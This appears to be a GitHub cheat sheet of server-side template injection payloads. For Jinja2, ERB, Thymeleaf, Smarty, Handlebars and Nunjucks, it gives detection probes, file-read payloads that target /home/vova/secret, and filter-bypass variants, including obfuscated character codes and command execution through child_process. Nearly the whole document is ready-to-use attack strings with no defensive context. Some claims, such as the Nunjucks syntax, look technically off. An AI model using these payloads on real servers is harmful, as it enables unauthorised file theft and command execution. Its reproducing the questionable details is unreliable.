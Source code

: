 # Server-side template injection

Test Queries: Enter the commands that will cause the error and look at the specific messages to determine the ENGINE.

# Exploitation of SSTI to access /home/vova/secret by languages ​​and template systems

## Python (Jinja2)

```
{{ }}, {% %}, {{7*7}} = 49
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/home/vova/secret').read() }}
```

ByPass:
```
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/'.join(['home', 'vova', 'secret'])).read() }}
{{ ''[''].__class__.__mro__[1].__subclasses__()[40]('/home/vova/secret').read() }}
{{ config.from_pyfile('/home/vova/secret') }}
```

## Ruby (ERB)

```
<%= %>, <%= 7 * 7 %> = 49
<%= File.read('/home/vova/secret') %>
```

ByPass:
```
<%= IO.readlines('/home/vova/secret') %>
<%= ENV["HOME"] %>/vova/secret
<%= Kernel.open('/home/vova/secret').read %>
```

## Java (Thymeleaf)

```
th:text, ${}, ${7*7} = 49
${new java.util.Scanner(new java.io.File("/home/vova/secret")).useDelimiter("\\A").next()}
```

ByPass:
```
${T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get('/home/vova/secret'))}
${new java.util.Scanner(new java.io.File('/home/vova/secret')).useDelimiter("\\A").next()}
${new java.io.BufferedReader(new java.io.FileReader('/home/vova/secret')).lines().toArray()}
```

## PHP (Smarty)

```
{ },{7*7} = 49
{file_get_contents('/home/vova/secret')}
```

ByPass:
```
{readfile('/home/vova/secret')}

{assign var="file" value=fopen('/home/vova/secret', 'r')}
{while !feof($file)}{fgets($file)}{/while}

{getenv("HOME")}/vova/secret
```

## Node.js (Handlebars, Nunjucks)

```
{{ }}, {{7*7}} = 49 //Handlebars
{% %}, {% 7*7 %} = 49 //Nunjucks

{% set fs = require('fs') %}
{{ fs.readFileSync('/home/vova/secret', 'utf-8') }}
```

ByPass:
```
{% set fs = require('fs') %}
{{ fs.readFileSync('/home/vova/secret', 'utf-8') }}

{% set cp = require('child_process') %}
{{ cp.execSync('cat /home/vova/secret') }}

{% set fs = require('fs') %}
{{ fs.readFileSync(String.fromCharCode(47, 104, 111, 109, 101, 47, 118, 111, 118, 97, 47, 115, 101, 99, 114, 101, 116), 'utf-8') }}

```
